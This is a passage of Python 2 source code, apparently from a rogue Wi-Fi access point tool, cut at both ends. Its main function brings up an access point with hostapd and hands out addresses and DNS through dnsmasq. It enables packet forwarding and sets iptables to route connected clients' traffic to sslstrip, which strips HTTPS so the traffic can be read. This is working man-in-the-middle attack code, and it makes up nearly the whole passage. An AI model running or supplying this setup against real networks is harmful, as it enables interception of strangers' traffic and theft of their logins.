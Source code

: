     print
    print '[*] Continuing...'


def main():

    configs = set_configs()
    display_configs(configs)
    kill_daemons()

    hostapd = utils.HostAPD.get_instance()
    iptables = utils.IPTables.get_instance()
    dnsmasq = utils.DNSMasq.get_instance()

    # bring up ap interface
    utils.bash_command('ifconfig %s down' % configs['upstream'])
    utils.bash_command('ifconfig %s 10.0.0.1/24 up' % configs['upstream'])

    # configure dnsmasq
    print '[*] Configuring dnsmasq'
    dnsmasq.configure(configs['upstream'],
                    '10.0.0.10,10.0.0.250,12h',
                    dhcp_options=[ '3,10.0.0.1', '6,10.0.0.1' ])

    # configure hostpad
    print '[*] Configuring hostapd'
    hostapd.configure(configs['upstream'],
                    configs['ssid'],
                    configs['channel'])

    # enable packet forwarding
    print '[*] Enabling packet forwarding.'
    utils.enable_packet_forwarding()


    print '[*] Configuring iptables to route packets to sslstrip'
    iptables.route_to_sslstrip(configs['phys'], configs['upstream'])

    try:

        # launch access point
        print '[*] Starting dnsmasq.'
        dnsmasq.start()
        print '[*] Starting hostapd.'
        hostapd.start()

    except KeyboardInterrupt:

        print '\n\n[*] Exiting on user command.'


    
    # restore everything
    print '[*] Stopping dnsmasq.'
    dnsmasq.stop()
    print '[*] Stopping hostapd.'
    hostapd.stop()


    print '[*] Restoring iptables.'
    iptables.reset()

    print '[*] Disabling packet forwarding.'